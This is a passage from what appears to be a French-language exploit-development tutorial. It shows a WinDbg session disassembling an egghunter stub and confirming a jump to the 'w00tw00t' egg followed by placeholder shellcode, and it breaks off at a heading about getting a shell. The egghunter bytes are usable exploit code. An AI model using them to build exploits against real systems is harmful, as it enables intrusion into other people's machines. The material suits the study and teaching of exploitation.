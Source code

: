 ```powershell
# On décompile les opcodes a l'adresse `0460ea9f`. On retrouve bien les NOP + le code ASM pour le egghunter
0:005> u 0477ea9f L16
0477ea9f 90              nop
0477eaa0 90              nop
0477eaa1 90              nop
0477eaa2 90              nop
0477eaa3 90              nop
0477eaa4 90              nop
0477eaa5 6681caff0f      or      dx,0FFFh
0477eaaa 42              inc     edx
0477eaab 52              push    edx
0477eaac b83afeffff      mov     eax,0FFFFFE3Ah
0477eab1 f7d8            neg     eax
0477eab3 cd2e            int     2Eh
0477eab5 3c05            cmp     al,5
0477eab7 5a              pop     edx
0477eab8 74eb            je      0477eaa5
0477eaba b877303074      mov     eax,offset msvcp_win!_CTA2?AVbad_exceptionstd+0x13cab (74303077)
0477eabf 89d7            mov     edi,edx
0477eac1 af              scas    dword ptr es:[edi]
0477eac2 75e6            jne     0477eaaa
0477eac4 af              scas    dword ptr es:[edi]
0477eac5 75e3            jne     0477eaaa
0477eac7 ffe7            jmp     edi
#
# On met un point d'arrêt sur l'adresse ou le `jmp edi` est réalisé
0:005> bp 0477eac7
#
#
0:005> g
```

Le second point d'arrêt est atteint. On est bien sur `jmp edi`. On affiche le contenu de `edi`, et on est bien sur le *egg* `w00tw00t` suivis du *shellcode* de `44444444` :

```powershell
Breakpoint 1 hit
eax=74303077 ebx=018f5778 ecx=0477ea30 edx=018f5b2e esi=018f5778 edi=018f5b36
eip=0477eac7 esp=0477ea34 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0477eac7 ffe7            jmp     edi {018f5b36}
0:005> dc @edi - 0x08
018f5b2e  74303077 74303077 44444444 44444444  w00tw00tDDDDDDDD
018f5b3e  44444444 44444444 44444444 44444444  DDDDDDDDDDDDDDDD
[...]
```

Problématique récurrente durant le développement d'exploit : trouver le compromis entre portabilité et taille d'exploit.

#### Récupérer un shell
